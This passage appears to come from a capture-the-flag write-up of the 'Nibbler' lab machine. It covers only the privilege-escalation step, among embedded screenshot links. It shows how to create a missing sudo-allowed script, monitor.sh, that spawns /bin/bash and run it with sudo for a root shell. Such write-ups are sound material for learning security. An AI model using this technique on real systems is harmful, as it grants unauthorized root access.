

Taking a look at the nibbler home page directories, we see that there isn't a personal folder listed here. Which means we are able to just create our own filepath and monitor.sh





From here, we can just make monitor.sh spawn a shell for us, and run it as sudo. This would give us a root shell


**monitor.sh**
```
#!/bin/bash

/bin/bash
```



We'll give it executions, then run it with sudo, giving us root.
```
chmod +x monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh

```




